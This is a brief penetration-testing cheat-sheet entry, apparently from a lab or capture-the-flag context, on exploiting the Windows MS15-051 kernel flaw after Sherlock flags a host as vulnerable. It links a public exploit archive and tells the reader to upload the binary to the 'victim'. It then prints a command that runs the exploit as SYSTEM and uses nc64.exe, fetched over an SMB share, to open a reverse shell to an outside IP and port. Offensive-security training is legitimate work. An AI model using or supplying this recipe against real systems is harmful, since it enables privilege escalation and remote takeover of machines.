 # MS15-051 Client Copy Image

Source: [https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip)

So you ran Sherlock and found that the machine appears to be vulnerable. Hurray!

1\) Make sure to download the right architecture \(32/64bit\) for exploit. 2\) Upload file to victim and run command as System 3\) Get reverse shell using smb file share

```text
MS15-051x64.exe "\\10.10.14.32\a\nc64.exe 10.10.14.32 7778 -e cmd.exe"
```

